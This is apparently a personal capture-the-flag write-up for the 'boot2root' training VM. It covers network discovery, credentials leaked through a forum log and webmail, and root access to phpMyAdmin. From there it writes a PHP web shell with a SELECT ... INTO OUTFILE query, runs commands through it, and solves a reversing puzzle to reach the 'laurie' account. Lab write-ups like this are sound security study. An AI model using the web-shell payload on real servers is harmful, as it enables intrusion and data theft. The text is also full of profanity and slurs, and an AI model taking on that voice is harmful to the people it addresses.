 # boot2root
what the fuck am i doing

# this looks like an intro to privilege escalation
The subject states that we need to get user and root access to this bullshit

## getting the IP address
Since I dk where the fuck to start, I'm thinking I need to maybe nmap scan the machine but wtf is the fucking IP address

**vm in local network**, you idiot, so I need address of local network, then I remembered, there's usually an *interface* created by vbox
```
$ ifconfig
vboxnet0: flags=8842<BROADCAST,RUNNING,SIMPLEX,MULTICAST> mtu 1500
        ether 0a:00:27:00:00:00 
$ arp -a
? (10.11.100.38) at b8:27:eb:f7:8f:b2 on en0 ifscope [ethernet]
```
running a dirb, there's a /forum route and a /webmail and /phpmyadmin, after clicking and doing stupid shit, there s a link users that lists the users in the forum and their posts

user **lmezard** posted a login failure thread
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from
```
the stupid idiot entered the password in the login field, stupid fuck

using **lmezard:!q\]Ej?*5K5cy*AJ** it logs in to the forum, and it woooorks, ouh email **laurie@borntosec.net**

I'm suspecting its a webmail email and the retard uses the same password

HE DOES OR SHE, THEY whatever

found an email theeere 	**DB Access**
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
retard, used the root password to connect to phpmyadmin

*fucking hell wtf*, there s a forum_db, with a **mlf2_userdata** table with usernames and of course *encrypted* passwords, kill me

after googling how to execute command from phpmyadmin blah blah

found **https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/**, abt a phpmyadmin tkhwira
```
SELECT "<?php exec($_GET['cmd']);?>" INTO outfile '/var/www/forum/templates_c/khra.php'
Votre requête SQL a été exécutée avec succès ( Traitement en 0.0001 sec )

https://10.11.100.75/forum/templates_c/ikhane.php?cmd=whoami
www-data
```

fucking useless
```
https://10.11.100.75/forum/templates_c/ikhane.php?cmd=ls%20-al%20/home
total 0 drwxrwx--x 1 www-data root 60 Oct 13 2015 . drwxr-xr-x 1 root root 220 Jan 28 15:35 .. drwxr-x--- 2 www-data www-data 31 Oct 8 2015 LOOKATME drwxr-x--- 6 ft_root ft_root 156 Jun 17 2017 ft_root drwxr-x--- 3 laurie laurie 143 Oct 15 2015 laurie drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net 60 Oct 15 2015 laurie@borntosec.net dr-xr-x--- 2 lmezard lmezard 61 Oct 15 2015 lmezard drwxr-x--- 3 thor thor 129 Oct 15 2015 thor drwxr-x--- 4 zaz zaz 147 Oct 15 2015 zaz
```
**LOOKATME** directoryyyy
```
https://10.11.100.75/forum/templates_c/ikhane.php?cmd=ls%20-al%20/home/LOOKATME
total 1 drwxr-x--- 2 www-data www-data 31 Oct 8 2015 . drwxrwx--x 1 www-data root 60 Oct 13 2015 .. -rwxr-x--- 1 www-data www-data 25 Oct 8 2015 password
```
WTFFFF, 
```
https://10.11.100.75/forum/templates_c/ikhane.php?cmd=cat%20/home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```
tried ssh into the machine
```
$ ssh lmezard@10.11.100.75
lmezard@10.11.100.75's password:G!@M6f4Eatau{sF"
Permission denied, please try again.
```
nope, kill me, after several fucking attempts to ssh using user lmezard

Tried to login directly into machine without ssh,, and it logged in

```
$ whoami
lmezard
```
in working directory, there's 2 files, README and fun

the README tells us to complete the challenge and use the result to ssh using laurie user, ugh kill me

```
$ file fun
fun: POSIX tar archive (GNU)
```
trying to untar it didnt work, cat ing it dhows a few printfs, so i saved it into a file and grep the fuck out of it 
```
int main() { printf("M"); printf("Y"); printf(" "); printf("P"); printf("A"); printf("S"); printf("S"); printf("W"); printf("O"); printf("R"); printf("D");
printf(" "); printf("I"); printf("S"); printf(":"); printf(" "); printf("%c",getme1()); printf("%c",getme2()); printf("%c",getme3());
printf("%c",getme4()); printf("%c",getme5()); printf("%c",getme6()); printf("%c",getme7()); printf("%c",getme8()); printf("%c",getme9());
printf("%c",getme10()); printf("%c",getme11()); printf("%c",getme12()); printf("\n"); printf("Now SHA-256 it and submit");
```
niiice
```
char getme8() { return 'w'; }
char getme9() { return 'n'; }

char getme10() { return 'a'; }
char getme11() { return 'g'; }

char getme12() { return 'e'; } 
```
there's only theeeese, then random returns, so I wanna use a script to print all possible strings that can be made from the chars **hpeaIrtwnage**
tried to generate distinct combinations from a list of those characters, stupid idea

The password ends with **wnage**, then we're left with **hearptI**, so after stupid tries, it's **Iheartpwnage**, its SHA-256

**330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4**
```
$ ssh laurie@10.11.100.75
laurie@10.11.100.75's password:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
laurie@BornToSecHackMe:~$ whoami
laurie
```


